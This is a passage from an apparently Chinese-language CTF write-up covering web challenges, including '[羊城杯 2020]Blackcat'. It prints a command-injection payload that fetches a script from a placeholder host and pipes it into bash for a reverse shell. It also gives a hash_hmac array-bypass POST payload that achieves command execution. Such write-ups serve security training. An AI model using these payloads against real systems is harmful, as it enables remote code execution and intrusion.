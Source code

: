 ```php
    }
    ?>

</body>

</html>
```

很明显的命令注入

```
/?file=GWHT.php&count='|`curl+x.x.x.x:yyyy/|bash`|echo+'1
```

反弹 shell 之后发现根目录下存在 /GWHT, 所属 GWHT 用户组

README md5 解密后为 `GWHTCTF`

尝试 su 切换到该用户, 然后查看 flag

![image-20221222142512828](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202212221425883.png)

## [羊城杯 2020]Blackcat

题目有点 nt, mp3 用 hex editor 打开最底下有 php 源码

```php
if(empty($_POST['Black-Cat-Sheriff']) || empty($_POST['One-ear'])){
    die('
$clandestine = getenv("clandestine");
if(isset($_POST['White-cat-monitor']))
    $clandestine = hash_hmac('sha256', $_POST['White-cat-monitor'], $clandestine);
$hh = hash_hmac('sha256', $_POST['One-ear'], $clandestine);
if($hh !== $_POST['Black-Cat-Sheriff']){
    die('
echo exec("nc".$_POST['One-ear']);
```

`hash_hmac()` 加密的数据如果为 array, 则返回的结果为 `NULL`, 然后用 `NULL` 去加密得到 `$hh`, 就可以执行任意命令了

```php
<?php
var_dump(hash_hmac('sha256', ';env', NULL));
```

```
Black-Cat-Sheriff=afd556602cf62addfe4132a81b2d62b9db1b6719f83e16cce13f51960f56791b&White-cat-monitor[]=&One-ear=;env
```

![image-20221222144821619](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202212221448699.png)

## [CISCN2019 总决赛 Day1 Web4]Laravel1

第一次正式开始挖大框架的反序列化, 感觉还挺好玩的
